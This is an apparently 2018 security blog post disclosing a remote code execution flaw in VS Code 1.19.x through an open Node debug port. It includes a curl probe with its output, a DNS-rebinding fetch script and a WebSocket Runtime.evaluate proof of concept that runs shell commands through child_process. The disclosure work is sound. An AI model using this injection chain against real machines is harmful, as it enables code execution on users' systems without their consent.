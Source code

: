 ```yaml
---
layout:	post
title:	"Visual Studio Code silently Fixed a Remote Code Execution Vulnerability"
date:	2018-03-16
show_excerpt: true
---
```


I occasionally noticed that Visual Studio Code was listening on a fixed TCP port 9333. After upgrading to 1.19.3, it's gone.

```
➜ ~ netstat -an | grep 9333
tcp4 0 0 127.0.0.1.9333 *.* LISTEN
```

Looks like it's a bug that affects VSCode 1.19.0~1.19.2. Extension process always run in debug mode, because of an accidentally added `--inspect` argument.

* [Make sure extension don't accidentally run in 'debug'-mode · Issue #39569 · Microsoft/vscode](https://github.com/Microsoft/vscode/issues/39569)
* [Clear — inspect* / — debug* arg when starting extension host · Issue #40443 · Microsoft/vscode](https://github.com/Microsoft/vscode/issues/40443)

Actually this is not just a bug. **It is exploitable.**

<!-- more -->

I guess he's found the same problem:

[Vulnerability in 1.19.x · Issue #42116 · Microsoft/vscode](https://github.com/Microsoft/vscode/issues/42116)

To reproduce the bug, download an older release:

* <https://vscode-update.azurewebsites.net/1.19.2/win32-x64/stable>
* <https://vscode-update.azurewebsites.net/1.19.2/darwin/stable>

Exploiting this port is quite simple. **Since it's a debug port you can absolutely inject arbitrary code into debuggee context**. Start Chrome browser an navigate to chrome://inspect

![Chrome's built-in javascript debugging tool](/img/C-3RYPLdCVdXfVA7soA53Q.png)

Click "Configure" and add localhost:9333 to the list:

![Add target](/img/E2noAEuWmwYbTW3mkyOluQ.png)

Now click inspect to inject javascript into VS Code process:

![Remote targets shown in Chrome](/img/uY1Ozt9Gw2lVHgTdDb121Q.png)

And profit!

![code execution in node.js](/img/p07rMuQGd-Hgf4u_NGH91Q.png)

To weaponize this, we need to interact with devtools protocol from a remote web page. The protocol is based on HTTP and WebSocket. Check out the spec here:

* <https://github.com/ChromeDevTools/devtools-protocol>
* <https://chromedevtools.github.io/devtools-protocol/>

First, get the session id from <http://127.0.0.1:9333/json/list>

```
➜ ~ curl -v localhost:9333/json -H "Host: dns.rebind"
* Trying ::1...
* TCP_NODELAY set
* Connection failed
* connect to ::1 port 9333 failed: Connection refused
* Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to localhost (127.0.0.1) port 9333 (#0)
> GET /json HTTP/1.1
> Host: dns.rebind
> User-Agent: curl/7.54.0
> Accept: */*
>
* HTTP 1.0, assume close after body
< HTTP/1.0 200 OK
< Content-Type: application/json; charset=UTF-8
< Cache-Control: no-cache
< Content-Length: 649
<
[ {
 "description": "node.js instance",
 "devtoolsFrontendUrl": "chrome-devtools://devtools/bundled/inspector.html?experiments=true&v8only=true&ws=127.0.0.1:9333/c5408ce2-6f06-4a7e-a950-395d95c6804f",
 "faviconUrl": "<https://nodejs.org/static/favicon.ico>",
 "id": "c5408ce2-6f06-4a7e-a950-395d95c6804f",
 "title": "/private/var/folders/4d/1_vz_55x0mn_w1cyjwr9w42c0000gn/T/AppTranslocation/EE69BB42-2A16-45F3-BB98-F6639CB594B1/d/Visual Studio Code.app/Contents/Frameworks/Code Helper.app/Contents/MacOS/Code Helper",
 "type": "node",
 "url": "file://",
 "webSocketDebuggerUrl": "ws://127.0.0.1:9333/c5408ce2-6f06-4a7e-a950-395d95c6804f"
} ]
* Closing connection 0
```

See the webSocketDebuggerUrl? That's all we need to attach the debugger.

It's a problem to fetch response from cross origin webpage. [Tavis Ormandy](https://medium.com/u/a82703d95ec2) has already shown some cases through dns-rebinding: <https://bugs.chromium.org/p/project-zero/issues/list?can=1&q=dns+rebinding&colspec=ID+Type+Status+Priority+Milestone+Owner+Summary&cells=ids>

![A case shows that a local port can be access from remote web page](/img/gV1f6shbOrzgAeQMmADQXw.png)

So an attacker needs to setup a DNS server to alternatively resolve an malicious domain between 127.0.0.1 and the actual web content ip address, with a short TTL. First the browser access the exploit page, then wait for a timeout for the browser to invalidate the previous dns record, so we can bypass same origin policy to read from `evil.com:9333/json/list`, which is actually from localhost.

For those who are interested in DNS rebinding, check these out:

* <https://github.com/ctfs/write-ups-2016/tree/master/0ctf-2016/web/monkey-4>
* <https://lock.cmpxchg8b.com/rebinder.html>
* <https://github.com/lorenzog/dns-rebinding>

Some people asked how long does it take to alter the DNS to 127.0.0.1. During my experiment, I borrow the dns server from <https://lock.cmpxchg8b.com/rebinder.html> and set a 120s script timeout before `XMLHttpRequest` / `fetch`, and it just worked.

```js
function log(msg) {
  const pre = document.createElement('pre');
  pre.appendChild(document.createTextNode(msg));
  document.body.appendChild(pre);
}

const interval = 120 * 1000;
async function main() {
  let list;
  try {
    list = await fetch('/json').then(r => r.json());
  } catch(e) {
    // retry
    log('retry');
    return setTimeout(main, interval);
  }
  const item = list.find(item => item.url.indexOf('file:///') === 0);
  if (!item) return log('invalid response');
  log('url:' + item.webSocketDebuggerUrl);
  // exploit(url);
}
main()
```

Now talk to the WebSocket server to inject the 2nd stage payload.

WebSocket supports cross domain unless the server explicitly checks `Origin:` header upon connection. So communicating with `webSocketDebuggerUrl` does not require any additional dns trick, except that `https://` page can't connect to `ws://`. Finally, call  `Runtime.evaluate` to inject script.

Assume the WebSocket server url is __ws://127.0.0.1:9333/c21b0fe3-96a5-4fbc-9687-5e6c8c91a3e7__, run the following script in any (non-https) webpage to see a calculator:

```js
function exploit(url) {
  function nodejs() {
    const cmd = {
      darwin: 'open /Applications/Calculator.app',
      win32: 'calc',
      linux: 'xcalc',
    };
    process.mainModule.require('child_process').exec(cmd[process.platform])
  };
  const packet = {
    "id": 13371337,
    "method": "Runtime.evaluate",
    "params": {
      "expression": `(${nodejs})()`,
      "objectGroup": "console",
      "includeCommandLineAPI": true,
      "silent": false,
      "contextId": 1,
      "returnByValue": false,
      "generatePreview": true,
      "userGesture": true,
      "awaitPromise": false
    }
  };

  const ws = new WebSocket();
  ws.onopen = () => ws.send(JSON.stringify(packet));
  ws.onmessage = ({ data }) => {
    if (JSON.parse(data).id === 13371337)
      ws.close()
  };
  ws.onerror = err => console.error('failed to connect');
}
exploit('ws://127.0.0.1:9333/c21b0fe3-96a5-4fbc-9687-5e6c8c91a3e7')
```

Compared to [the recent Electron bug](https://medium.com/0xcc/electrons-bug-shellexecute-to-blame-cacb433d0d62), the later requires user interaction and only affects Windows. If you are on these versions, just upgrade. Anyways, the debugging utility will still be enabled if you manually launch VSCode command with `--inspect=[port]`. Better use an alternative random port than 9333 to avoid potential exploit.

P.S.

For any electron based desktop app, there's a `--remote-debugging-port` switch.

**Update 2018–03–30:**

Node.js has officially fixed the remote debugging protocol issue

[March 2018 Security Releases | Node.js](https://nodejs.org/en/blog/vulnerability/march-2018-security-releases/#node-js-inspector-dns-rebinding-vulnerability-cve-2018-7160)